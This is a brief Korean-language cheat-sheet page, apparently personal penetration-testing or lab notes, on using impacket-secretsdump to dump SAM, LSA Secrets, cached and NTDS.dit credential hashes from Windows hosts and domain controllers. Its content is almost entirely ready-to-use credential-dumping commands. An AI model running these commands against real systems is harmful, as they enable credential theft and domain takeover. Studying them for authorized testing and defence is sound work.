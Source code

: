 ```yaml
---
layout: page
title: secretsdump
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

### **크리덴셜 덤프 및 파일 공유 (Credential Dumping & File Sharing)**

- **목적:** 원격 시스템의 SAM, LSA Secrets, NTDS.dit 등에서 모든 종류의 크리덴셜을 덤프합니다.
- **특징:** 도메인 장악의 핵심 도구입니다.

```bash
# 원격 시스템의 모든 해시 덤프 (SAM, LSA, cached)
impacket-secretsdump <domain>/<user>:<password>@$target

# 도메인 컨트롤러의 NTDS.dit 덤프
impacket-secretsdump <domain>/<DA_user>:<password>@<DC_IP> -just-dc-ntlm

# GetST로 캐시 생성 후
impacket-secretsdump -k -no-pass HayStack.thm.corp

# ntds.dit, SYSTEM, SAM 파일 획득한 경우
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```


